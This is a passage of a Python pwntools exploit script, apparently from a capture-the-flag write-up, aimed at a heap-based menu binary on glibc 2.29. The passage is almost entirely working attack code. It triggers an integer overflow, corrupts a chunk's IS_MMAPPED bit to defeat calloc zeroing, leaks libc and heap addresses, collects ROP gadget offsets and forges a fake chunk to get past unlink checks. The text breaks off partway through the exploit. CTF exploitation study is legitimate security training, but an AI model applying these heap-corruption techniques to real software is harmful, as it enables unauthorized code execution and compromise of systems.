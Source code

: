 ```python

if args.GDB:
  debug([])

def get_money():
  payload = ((2**64-1)/218)+1

  p.sendlineafter(': ', '1')
  p.sendlineafter(':', '0')
  p.sendlineafter(':', str(payload))

  sell(0)

get_money()

buy(0, 0x80, 'A'*0x80) # Used to overwrite into chunk B
buy(1, 0x500, 'B'*0x500) # Chunk B
buy(2, 0x80, 'C'*0x80) # Prevent consolidation with top chunk

# Sell chunk B into unsorted bin
sell(1)
buy(1, 0x600, 'A'*0x600) # Move chunk B to large bin

# Overflow to turn on the IS_MMAPPED bit of chunk B
# This prevents calloc from clearing the chunk when we reallocate it
upgrade(0, '\x00'*0x88 + p64(0x513))

# Get chunk B back without it being zeroed out
buy(7, 0x500, 'A'*8)

# Leak libc and heap addresses
show(7)
data = p.recv(0x18)

libc.address = u64(data[8:16]) - 0x1e50d0
heap = u64(data[16:24]) - 0x2e0

pop_rdi = libc.address + 0x26542
pop_rsi = libc.address + 0x26f9e
pop_rdx = libc.address + 0x12bda6
pop_rax = libc.address + 0x47cf8
syscall = libc.address + 0xcf6c5
malloc_hook = libc.symbols['__malloc_hook']
leave_ret = libc.address + 0x58373

log.info('Libc base: ' + hex(libc.address))
log.info('Heap base: ' + hex(heap))

# Clear indexes 0, 1, and 2
sell(0) # goes into tcache 0x80
sell(1) # merges with top chunk
sell(2) # goes into tcache 0x80

# Create a fake 0x230 sized chunk within a new chunk
# The target address is used to pass the unlink_chunk checks in libc 2.29
target = heap + 0x890
buy(6, 0x80, '\x00'*8 + p64(0x231)+p64(target+8)+p64(target+0x10)+p64(target))

# Create enough chunks to create a 0x230 sized gap between the fake 0x230 chunk above
# and the 0x600 sized chunk below that we will consolidate backwards
buy(5, 0x80, 'C'*0x80)
buy(0, 0x80, 'D'*0x80)
buy(1, 0x80, 'E'*0x80)
```